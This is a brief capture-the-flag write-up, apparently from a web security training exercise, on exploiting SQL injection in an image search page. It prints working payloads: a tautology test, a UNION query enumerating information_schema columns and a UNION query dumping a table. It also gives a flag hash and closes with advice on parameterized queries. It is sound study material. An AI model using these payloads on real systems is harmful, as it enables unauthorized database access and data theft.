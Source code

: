 # SQL Injection

## Location

```
http://ip/?page=searchimg
```
## Breach
in the input we tried the value 1 or 1=1  to check if there is an sql injection possibiltie and we got a response,
so we tried to look more into it by getting some database information using the next query
```
1337 or 1=1 UNION select table_name, column_name FROM information_schema.columns
```
after multiple queries combinations with the next query we succeeded to get some useful dinstructions to get our flag
```
1337 or 1=1 union select comment, title FROM list_images
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

## Solution

the best approach is controlling and vetting user input to watch for attack patterns. 
use Parametrized queries or an database orm.